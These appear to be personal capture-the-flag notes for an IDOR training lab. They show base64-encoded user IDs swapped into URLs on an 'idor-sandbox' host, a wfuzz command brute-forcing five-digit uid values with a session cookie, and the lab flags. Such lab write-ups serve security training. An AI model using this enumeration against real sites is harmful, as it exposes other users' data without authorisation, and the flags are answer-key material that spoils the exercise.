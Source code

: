 ##### Labs

1. `OS{decodeAndEncodeAllTheThings}`
 ![[Pasted image 20241105174700.png]]
This is the webpage
![[Pasted image 20241105173153.png]]
when decoded it is broken out to one
```bash
┌──(root💀gobots)-[05Nov2024 22:28:12]-[/home/kali]
└─# echo "MQ==" | base64 --decode
1            
```
now to encode utilize this command
```bash
┌──(root💀gobots)-[05Nov2024 22:33:12]-[/home/kali]
└─# echo -n "1" | base64
MQ==
```
###### 2
```bash
┌──(root💀gobots)-[05Nov2024 22:34:04]-[/home/kali]
└─# echo -n "2" | base64
Mg==
```
`http://idor-sandbox/challenge/?uid=Mg==`
![[Pasted image 20241105173553.png]]
###### 7
```bash
┌──(root💀gobots)-[05Nov2024 22:34:56]-[/home/kali]
└─# echo -n "7" | base64
Nw==
```
`http://idor-sandbox/challenge/?uid=Nw==`
![[Pasted image 20241105174550.png]]

2.
`OS{ITTERATE_THOSE_UIDS}`
this was the same utilized in the previous lessons
```bash
wfuzz -c -z file,/usr/share/seclists/Fuzzing/5-digits-00000-99999.txt --hc 404 --hh 2873 -H "Cookie: PHPSESSID=f41ffa33a0125d011ec500d2fc80afd8" http://idor-sandbox:80/user/?uid=FUZZ
```


![[Pasted image 20241105175044.png]]
payload used
```bash
http://idor-sandbox/user/?uid=83271
```
